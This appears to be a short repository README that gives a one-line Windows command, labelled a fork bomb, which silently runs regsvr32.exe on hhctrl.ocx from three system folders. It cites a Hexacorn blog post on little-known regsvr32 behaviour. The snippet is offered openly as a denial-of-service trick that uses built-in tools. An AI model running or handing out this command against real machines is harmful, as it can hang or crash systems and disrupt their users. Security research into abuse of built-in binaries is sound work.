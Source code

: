 
fork-bomb using windows builtin tools. https://www.hexacorn.com/blog/2023/12/28/1-little-known-secret-of-regsvr32-exe-take-three/

```cmd
regsvr32.exe /s c:\WINDOWS\system32\hhctrl.ocx c:\WINDOWS\syswow64\hhctrl.ocx c:\WINDOWS\sysnative\hhctrl.ocx
```
